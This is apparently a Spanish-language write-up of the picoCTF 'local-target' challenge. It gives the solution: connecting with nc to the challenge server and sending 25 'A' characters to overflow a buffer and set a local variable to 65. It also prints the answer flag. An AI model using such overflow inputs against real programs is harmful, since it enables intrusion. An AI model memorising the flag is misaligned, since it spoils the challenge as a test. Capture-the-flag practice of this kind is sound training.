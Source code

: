 
## Descripcion
Can you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/517/local-target). You can view source [here](https://artifacts.picoctf.net/c/517/local-target.c). And connect with it using:`nc saturn.picoctf.net 53332`
## Pistas
- Do anything you can to change `num`.
- When you change `num`, view the value as hexadecimal.
## Solucion
```
Descargamos el archivo y analizamos el codigo: en el codigo c veremos que win es 65
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 53332
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}
```

## Bandera
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}
## Notas adicionales

## Referencias